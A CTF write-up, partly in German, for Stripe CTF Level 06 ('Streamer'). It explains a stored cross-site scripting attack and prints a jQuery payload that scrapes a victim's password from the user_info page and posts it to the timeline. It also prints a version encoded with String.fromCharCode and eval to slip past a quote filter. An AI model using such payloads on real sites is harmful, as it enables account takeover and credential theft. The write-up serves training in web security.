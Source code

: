 LEVEL 06
========

XSS vulnerability, only ' & " are not allowed, add < script >.

    $.get('https://level06-2.stripe-ctf.com/user-XXXX/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Escape with JavaScript String.charCodeAt()

[http://www.w3schools.com/jsref/jsref_charcodeat.asp](http://www.w3schools.com/jsref/jsref_charcodeat.asp)
[http://www.w3schools.com/jsref/jsref_fromcharcode.asp](http://www.w3schools.com/jsref/jsref_fromcharcode.asp)
[http://www.w3schools.com/jsref/jsref_eval.ASP](http://www.w3schools.com/jsref/jsref_eval.ASP)
[http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)

---

After Karma Trader from Level 4 was hit with massive karma inflation (purportedly due to someone flooding the market with massive quantities of karma), the site had to close its doors. All hope was not lost, however, since the technology was acquired by a real up-and-comer, Streamer. Streamer is the self-proclaimed most steamlined way of sharing updates with your friends. You can access your Streamer instance here: https://level06-2.stripe-ctf.com/user-XXXX

The Streamer engineers, realizing that security holes had led to the demise of Karma Trader, have greatly beefed up the security of their application. Which is really too bad, because you've learned that the holder of the password to access Level 7, level07-password-holder, is the first Streamer user.

As well, level07-password-holder is taking a lot of precautions: his or her computer has no network access besides the Streamer server itself, and his or her password is a complicated mess, including quotes and apostrophes and the like.

Fortunately for you, the Streamer engineers have decided to open-source their application so that other people can run their own Streamer instances. You can obtain the source for Streamer at git clone https://level06-2.stripe-ctf.com/user-XXXX/level06-code. We've also included the most important files below.

---

Aus dem Quelltext kann man lesen, dass sowohl ' als auch " in jeglichen Eingabefeldern zu einem 500 Internal Server Error führen - eine SQL Injection kann man also schon ausschließen. Interessant ist, dass in der _views/home.erb_ der @username direkt in das Javascript geschrieben wird. Das können wir ausnutzen, indem wir unseren Username pimpen - das gleiche funktioniert hier übrigens genau so mit Posttitel und Postbody... Wie auch immer. Weil sich hier der Nutzer, auf dessen Passwort wir scharf sind, auch alle paar Minuten einloggt ist mal wieder eine Cross Server Scripting Vulnerability präsent. Wir müssen also ein Javascript schreiben, dass in einen Post passt, ausgeführt wird, die URL user_info aufruft, das Passwort von dort parsed und in die Timeline postet. Einziges Hindernis: wir dürfen in keinem Textfeld ' oder " verwenden... Der Ausweg aus diesem Problem ist so einfach, dass man meistens gar nicht daran denkt... Jedes Char in unserem String hat eine Nummer!  Durch die Methoden charCodeat() und fromCharCode() können wir unser Script in eine Reihe von zahlen umwandeln, mit eval() können wir das so geparste Script ausführen.

    $.get('https://level06-2.stripe-ctf.com/user-XXXX/user_info',
      function(data) {
        var password = /Password:<\/th>\s+<td>(.+)<\/td>/.exec(data)[1];
        var res = '';
        for (var i = 0; i < password.length; i++) {
          res += password.charCodeAt(i) + ", ";
        }
        console.log(res);
        $("#content").val(res);
        $("#new_post").submit();
      })

Das Script parsed also das Passwort von der user_info Seite, wandelt es in seine Charcodes um und postet es in die Timeline. Ohne Umwandlung in die Charcodes geht es nicht, da das Passwort es paranoiden Users aus Sonderzeichen inklusive ' und " besteht. (Siehe Beschreibungstext) Ganz einfach lässt sich das Script über diese Seite umwandeln: [http://jdstiles.com/java/cct.html](http://jdstiles.com/java/cct.html)
So würde es bspw. am Ende aussehen:

    </script><script>eval(String.fromCharCode(36, 46, 103, 101, 116, 40, 39, 104, 116, 116, 112, 115, 58, 47, 47, 108, 101, 118, 101, 108, 48, 54, 45, 50, 46, 115, 116, 114, 105, 112, 101, 45, 99, 116, 102, 46, 99, 111, 109, 47, 117, 115, 101, 114, 45, 103, 100, 110, 105, 112, 121, 97, 106, 99, 118, 47, 117, 115, 101, 114, 95, 105, 110, 102, 111, 39, 44, 10, 32, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 100, 97, 116, 97, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 112, 97, 115, 115, 119, 111, 114, 100, 32, 61, 32, 47, 80, 97, 115, 115, 119, 111, 114, 100, 58, 60, 92, 47, 116, 104, 62, 92, 115, 43, 60, 116, 100, 62, 40, 46, 43, 41, 60, 92, 47, 116, 100, 62, 47, 46, 101, 120, 101, 99, 40, 100, 97, 116, 97, 41, 91, 49, 93, 59, 10, 32, 32, 32, 32, 118, 97, 114, 32, 114, 101, 115, 32, 61, 32, 39, 39, 59, 10, 32, 32, 32, 32, 102, 111, 114, 32, 40, 118, 97, 114, 32, 105, 32, 61, 32, 48, 59, 32, 105, 32, 60, 32, 112, 97, 115, 115, 119, 111, 114, 100, 46, 108, 101, 110, 103, 116, 104, 59, 32, 105, 43, 43, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 114, 101, 115, 32, 43, 61, 32, 112, 97, 115, 115, 119, 111, 114, 100, 46, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 40, 105, 41, 32, 43, 32, 34, 44, 32, 34, 59, 10, 32, 32, 32, 32, 125, 10, 32, 32, 32, 32, 99, 111, 110, 115, 111, 108, 101, 46, 108, 111, 103, 40, 114, 101, 115, 41, 59, 10, 32, 32, 32, 32, 36, 40, 34, 35, 99, 111, 110, 116, 101, 110, 116, 34, 41, 46, 118, 97, 108, 40, 114, 101, 115, 41, 59, 10, 32, 32, 32, 32, 36, 40, 34, 35, 110, 101, 119, 95, 112, 111, 115, 116, 34, 41, 46, 115, 117, 98, 109, 105, 116, 40, 41, 59, 10, 32, 32, 125, 41));</script><script>

Fügen wir das nun in einen Post ein und warten ab, so wird unser Opfer unwissentlich sein Passwort posten. Abfragen können wir es dann bequem über _ajax/posts_, ohne dass wir selbst unser Passwort erneut posten.
